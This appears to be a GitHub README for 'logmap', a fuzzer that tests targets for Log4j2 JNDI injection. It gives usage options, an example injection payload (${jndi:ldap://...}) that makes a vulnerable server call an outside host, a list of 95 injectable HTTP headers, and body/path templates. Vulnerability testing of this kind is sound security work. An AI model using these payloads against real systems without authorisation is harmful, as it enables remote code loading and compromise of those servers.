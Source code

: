 # logmap - Log4j2 jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line 372 in logmap.py to modify:  
`args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`  
to   
`args.ceye = ["1234567.ceye.io", "843fd6d58a8ebede756a2b991d321a5a"]`  

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit

```

# Config  
There are currently 95 fuzz headers  
```
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-Att-Deviceid
X-ATT-DeviceId
X-Client-IP
X-Client-Ip
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
